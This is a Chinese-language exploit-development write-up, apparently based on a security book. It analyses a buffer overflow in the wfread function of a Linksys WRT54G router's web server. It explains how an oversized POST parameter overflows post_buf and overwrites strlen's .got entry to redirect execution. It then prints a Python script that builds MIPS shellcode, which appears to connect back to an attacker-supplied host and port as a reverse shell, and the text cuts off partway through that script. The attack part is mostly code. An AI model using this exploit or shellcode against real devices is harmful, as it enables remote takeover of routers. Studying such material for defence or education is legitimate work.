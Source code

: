 通过对函数wfread的静态分析以及动态调试可知其参数如下：
```
参数一：post_buf用来存放读取数据的缓冲区
参数二：读取单位1个字节
参数三：读取的长度，可控
参数四：输入流句柄
```
其实就是fread函数的参数，通过ida可知post_buf其实是一个全局变量，ida也有明确的标出，分析其其实地址和终止地址可知其大小为0x2710（10000）个字节，也就是当我们的POST参数长度超过10000个字节的时候就可以让缓冲区溢出了。

#### 根据书中的描述可知其是想覆盖srtlen函数的地址从而让其执行准备好的shellcode,但是根据使用书中最后的测试文件，但是并没有将strlen函数覆盖，另外对于书中268页所述"只要填充0x2f32(0x1000D7A0-0x10001AD8)字节数据就可以将原来的strlen调用位置填充为任意地址"不以为然，这里需要解释一下，地址0x1000D7A0是strlen函数的地址，0x10001AD8是post_buf首地址，用来接收POST参数的。让我们再来看看崩溃位置代码调用（动态调试的时候）：
```
.text:004112B8 21 20 40 02                   move    $a0, $s2
.text:004112BC 00 00 00 00                   nop
.text:004112C0 6C 83 81 8F                   la      $at, post_buf
.text:004112C4 00 00 00 00                   nop
.text:004112C8 21 08 22 00                   addu    $at, $v0
.text:004112CC 00 00 20 A0                   sb      $zero, 0($at)
.text:004112D0 DC 80 99 8F                   la      $t9, 0x7F4FF310   //通过验证0x7F4FF310确实是strlen函数的地址，那么这个地址是存在那里的？
.text:004112D4 00 00 00 00                   nop
.text:004112D8 09 F8 20 03                   jalr    $t9 ; strlen
```
通过一番查找，最终发现0x7F4FF310这个要赋值给$t9的地址其实是存放在.got段中的，书中最后的测试文件wrt54g_test.py覆盖的其实是这里，并不是地址1000D7A0，通过上网查找.got段有点类似于导入表/iat表，用来存放导入函数的地址，因此我们只要从.data段（post_buf）覆盖到.got段就行了。将原本存放strlen函数地址的位置替换成shellcode的首地址即可，这样$t9就是shellcode的地址了！
#### 最终的shllcode
```
import sys
import struct,socket
import urllib2
def makepayload(host,port):
    print '[*]prepare shellcode'
    hosts=struct.unpack('<cccc',struct.pack('<L',host))
    ports=struct.unpack('<cccc',struct.pack('<L',port))
    mipselshell ="\xfa\xff\x0f\x24"
    mipselshell +="\x27\x78\xe0\x01"
    mipselshell +="\xfd\xff\xe4\x21"
    mipselshell +="\xfd\xff\xe5\x21"
    mipselshell +="\xff\xff\x06\x28"
    mipselshell +="\x57\x10\x02\x24"
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall 0
    mipselshell += "\xFF\xFF\xA2\xAF"                                     # sw      $v0, var_1($sp)
    mipselshell += "\xFF\xFF\xA4\x8F"                                     # lw      $a0, var_1($sp)
    mipselshell += "\xFD\xFF\x0F\x34"                                     # li      $t7, 0xFFFD
    mipselshell += "\x27\x78\xE0\x01"                                     # nor     $t7, $zero
    mipselshell += "\xE0\xFF\xAF\xAF"                                     # sw      $t7, var_20($sp)
    mipselshell += struct.pack('2c',ports[1],ports[0])+"\x0E\x3C"
    mipselshell += struct.pack('2c',ports[1],ports[0])+"\xCE\x35"         # li      $t6, ports
    mipselshell += "\xE4\xFF\xAE\xAF"                                     # sw      $t6, var_1C($sp)
    mipselshell += struct.pack('2c',hosts[1],hosts[0])+"\x0E\x3C"         # li      $t6, host[0]+host[1]
    mipselshell += struct.pack('2c',hosts[3],hosts[2])+"\xCE\x35"         # li      $t6, host[2]+host[3]
    mipselshell += "\xE6\xFF\xAE\xAF"                                     # sw      $t6, var_1C+2($sp)
    mipselshell += "\xE2\xFF\xA5\x27"                                     # addiu   $a1, $sp, var_20+2
```